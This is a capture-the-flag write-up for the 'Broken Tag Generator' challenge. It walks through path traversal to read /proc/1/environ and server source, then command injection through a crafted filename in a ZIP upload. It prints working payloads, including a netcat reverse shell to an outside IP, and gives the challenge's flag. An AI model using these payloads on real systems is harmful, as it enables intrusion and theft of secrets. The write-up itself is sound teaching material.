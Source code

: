# Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!<br/>
    The tag generator is acting up.<br/>
    I feel like the issue has something to do with weird files being uploaded.<br/>
    Can you help me figure out what's wrong?<br/>


## Hints

??? hint "Patience and Timing"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a reverse shell. We'll explore both options! :smile:


### Path Traversal

Start by analyzing the [`app.js`](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint with `id` being a randomly generated value that identifies the image (line 7). 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('<img id="dynamic">');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```


### Short solution

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:

![Short solution](../img/objectives/o8/solution_short.png)


### Longer solution

An HTTP request using an invalid `id` will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.

![HTTP request error](../img/objectives/o8/raw_response.png)

!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test” cannot be displayed because it contains errors.
    ```

We can leverage the same [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) as before by issuing a request to `https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb` to download [`app.rb`](../artifacts/objectives/o8/app.rb). Because the backend code does not filter the `filename` variable prior to using it in the `system` call, we can leverage this flaw to execute our own code (line 7).

```ruby linenums="1" hl_lines="7"
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Structuring the filename of the uploaded file as `myfile';command_to_run;ls '.png` will translate the `convert` command into `convert -resize 800x600\\> -quality 75 'myfile';`, `command_to_run;`, and `ls '.png' '#{ out_path }'`. Nudging our own command neatly in the middle. 

The `process_file()` function tells us the app allows uploading files with an extension matching either `.jpg`, `.jpeg`, `.png`, or `.zip`. To prevent our uploaded file from being renamed at the server side we can leverage the `handle_zip()` function as it leaves filenames as-is after unpacking the uploaded archive (line 7). Luckily for us, Jack also commented out the filename validation code (line 2). Thanks, Jack! :thumbsup:

```ruby linenums="1" hl_lines="2 7"
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end

# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"

# Extract to file or directory based on name in the archive
entry.extract(out_file) {
  # If the file exists, simply overwrite
  true
}

# Process it
out_files << process_file(out_file)
```

To retrieve the value of the `GREETZ` environment variable, create an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png`, add it to a [ZIP file](../tools/objectives/o8/GREETZ_payload.zip), and upload it using the tag generator application. The application will unpack the archive, execute our command, and save the output to `/tmp/the_GREETZ_tag.txt` which we can then download using a request to `https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt`. :boom:

![Longer solution](../img/objectives/o8/solution_long.png)

!!! done "Answer"
    JackFrostWasHere

!!! note "Reverse shell"
    A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
    
    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.

    ![Reverse shell](../img/objectives/o8/reverse_shell.png)

